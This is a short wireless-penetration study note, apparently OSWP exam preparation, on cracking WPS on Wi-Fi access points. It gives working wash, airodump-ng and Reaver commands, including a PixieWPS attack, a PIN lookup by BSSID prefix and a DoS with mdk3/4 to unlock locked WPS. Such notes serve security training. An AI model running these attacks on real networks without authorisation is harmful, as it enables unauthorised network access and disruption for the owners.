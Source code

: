 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/e-wps-cracking/","updated":"2024-01-16T10:41:39.775+01:00"}
---
```


----------------
### Scan for APs with WPS:
- Using Wash:
```
wash -i wlan0mon
```
- Add -5 for 5GHz
- _Lck_ indicates if WPS is locked, i.e. attack is pointless at that time
- Using Airodump:
```
sudo airodump-ng wlan0mon --wps
```

-----------
### Reaver default attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
```
- If Reaver won't switch channels and is stuck on "Waiting for beacon from..." add the -c parameter and specify the channel
- Test for empy pin: -p
--------------
### PixieWPS attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```

-------------------------
### BSSID-dependent PIN attack:
1. Load PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```
2. Check database for first six characters of BSSID:
```
echo ${PINDB["0013F7"]}
```
3. Verify outputted PINs

----
### Common errors:
Problem: Trying PixieWPS PIN with reaver:
```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
Solution: Restart reaver without PixieWPS option or try alternative wireless card.

Problem: Reaver may keep trying the same PIN in verbose mode:
```
[+] Sending identity response
[+] Received identity request
```
Solution: Try different wireless card with different chipset.

Problem: WPS is locked
Solution: Perform DoS using mdk3/4 or other to make AP reboot